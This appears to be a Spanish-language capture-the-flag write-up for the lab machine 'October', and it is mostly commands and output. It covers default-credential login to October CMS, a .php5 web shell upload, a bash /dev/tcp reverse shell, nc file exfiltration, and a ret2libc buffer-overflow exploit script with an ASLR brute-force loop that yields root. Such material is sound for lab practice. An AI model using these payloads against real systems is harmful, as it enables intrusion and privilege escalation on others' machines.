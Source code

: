 # 10.10.10.16 - October
![October](https://user-images.githubusercontent.com/96772264/205711527-23a17d1c-77f1-4db6-bff7-ff50d021fce3.png)
-----------------------

Puertos abiertos: 22(ssh), 80(http)
```console
└─$ whatweb http://10.10.10.16
[200 OK] Apache[2.4.7], Cookies[october_session],HttpOnly[october_session], Meta-Author[October CMS], PHP[5.5.9-1]
```
Tenemos una web, que nos piden registrarnos. Una vez hecho esto nos dan dos cookies.
```
october_session:eyJpdiI6ImVCXC9LbE4wYVBlNU5vV1ZIaW1neDFRPT0iLCJ2YWx1ZSI6InVDWGRUdmk4QjFjRWNjMVFRaFwvWjg0M2M5Y3czMWQ4U0k1V3AxbzFaYklFSDd5TU5nZ3IzT04wcVRHWWViS2xRXC8rcUhNb2x4Q0NNbEVXZlJMNVEzOHc9PSIsIm1hYyI6IjZmZjU1ZDRlNGE4YTQwYzdhMDQ0M2VjNzZjZDM0ODMxOTUwNzNmMzA3NDY2YzMwYzA1MTM1MDk5ODQ2NWJhZjcifQ%3D%3D
user_auth:eyJpdiI6IkhIQm8xaVc0TWNMTzR4WW1tQnlHZVE9PSIsInZhbHVlIjoiZlNnYTdUa20yM2NOMGNOakdUUm5vOVBQY1ozaVwvRkxzTk5YRkp5OEk5Mnc0Rk8yNnZKSFIyYkxYc1p3Vm41ZEplR2xoZHhTRVwvNDBXYmUrZ2xyT0tyOTB5blB3TjJqNDhpR2VHOXhxNU5TTytTQ2dYR00zVU5qXC80Sjd5Q2E4c2MiLCJtYWMiOiI0N2IyZjhmMTc4OGIwMzIwNTg5NDNjYzI4ZTkwODA4NzdiZjgzMzliNjg2YzZmYmM5Njk0Nzk0NzJiYzcxYjYzIn0%3D

{"iv":"eB\/KlN0aPe5NoWVHimgx1Q==","value":"uCXdTvi8B1cEcc1QQh\/Z843c9cw31d8SI5Wp1o1ZbIEH7yMNggr3ON0qTGYebKlQ\/+qHMolxCCMlEWfRL5Q38w==","mac":"6ff55d4e4a8a40c7a0443ec76cd3483195073f307466c30c051350998465baf7"}
```
![october1](https://user-images.githubusercontent.com/96772264/205711573-3fb469c3-64ff-479d-b67b-a6e89e48d69c.PNG)

La seccion de blog nos dice de poner "Una entrada mas interesante". Nos dan el link a /storage/app/media/dr.php5  También pone abajo un panel para comentar donde 
nos dejan poner markdown.

Ponemos : ```<script src="http://10.10.14.16/pwn.js"></script>``` pero no recibimos petición. El output se ve reflejado pero al poner ```{{7*7}}``` no sale 49
![october2](https://user-images.githubusercontent.com/96772264/205711604-ce104899-c133-4751-9e18-9ee52e4285eb.PNG)

HAciendo fuzzing encontre la ruta "backend" (100 hilos en vez de 200 por que da cierto error)
```console
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.16/FUZZ/
000000019:   200        103 L    230 W      4253 Ch     "blog"
000000070:   403        10 L     30 W       284 Ch      "icons"
000000336:   200        145 L    265 W      5089 Ch     "account"
000000054:   200        216 L    384 W      9598 Ch     "forum"
000000761:   302        11 L     22 W       400 Ch      "backend"
```

En backend nos piden creds, le pongo los mios y no me dejan, busco los creds por defecto de "october cms" que son ```admin:admin``` y entro con ellos.
![october3](https://user-images.githubusercontent.com/96772264/205711651-95cd03a5-d03e-42b0-bab5-853172de5a6f.PNG)
![october4](https://user-images.githubusercontent.com/96772264/205711664-e362a539-9321-46aa-a88b-2671ff678a17.PNG)

```<php shell_exec($_GET['cmd']); ?>```
En searchsploit si pones "october cms" te salen varias cosas, entre ellas uno de file upload. October cms no deja subir .php pero si .php5
```php
<?php 
    system($_GET['cmd']);
?>
```
Luego de poner en la ruta que nos dan ```bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'``` recibimos una consola al escuchar con netcat ```sudo nc -nlvp 443```
Entramos con la carpeta "/var/www/html/cms/storage/app/" Dos directorios mas atrás hay uno de config, esta bien mirar ahí en busca de credenciales
```console
www-data@october:/var/www/html/cms/config$ grep -rIE "password"
database.php:            'password'  => 'OctoberCMSPassword!!',
```
Pero no nos sirve ni para migrar al usaurio harry ni para conectarnos a la base de datos local. Enumerando mas encontramos un binario SUID "/usr/local/bin/ovrflw"
```console
└─$ sudo nc -nlvp 666 > ovrflw
www-data@october:/tmp$ cat "/usr/local/bin/ovrflw" | nc 10.10.14.16 666
```

```console
└─$ gdb ./ovrflw
gef➤ pattern create 120
gef➤ r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
SEG FAULT
$esp   : 0xffffd0d0  →  "eaab"
$ebp   : 0x62616163 ("caab"?)
$eip   : 0x62616164 ("daab"?)
[+] Searching for '$eip'
[+] Found at offset 112 (little-endian search) likely
```
A partir de 112 de input, se desborda el buffer. 

```console
└─$ python3 -c "print('A'* 112 + 'B' * 4)"
gef➤ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
$eip   : 0x42424242 ("BBBB"?)
```
Ya tenemos control del eip, pero en vez de redirigirlo a un sitio inutil mejor a una carga de código.
```console
www-data@october:/$ for i in $(seq 1 100); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}'; done
(0xb7636000)
(0xb7605000)
(0xb756b000)
(0xb75e0000)
(0xb75e4000)
(0xb760f000)
```
El ASLR cambia cada dos por tres así que hay que coger una random como "0xb7548000"
```console
www-data@october:/$ ldd /usr/local/bin/ovrflw
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75cc000)
www-data@october:/$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@| exit@@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 162bac /bin/sh 
```
```python
import struct

junk = b"A" * 112
libc = 0xb7548000
system = struct.pack("<L", libc + 0x00040310)
exit = struct.pack("<L", libc + 0x00033260)
sh = struct.pack("<L", libc + 0x00162bac)
print(junk + system + exit + sh)
```
```console
www-data@october:/tmp$ while true; do /usr/local/bin/ovrflw $(cat /tmp/payload); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
# whoami
root
# cat /root/root.txt
1bef37c2a94b79399a76172e417814fa
```
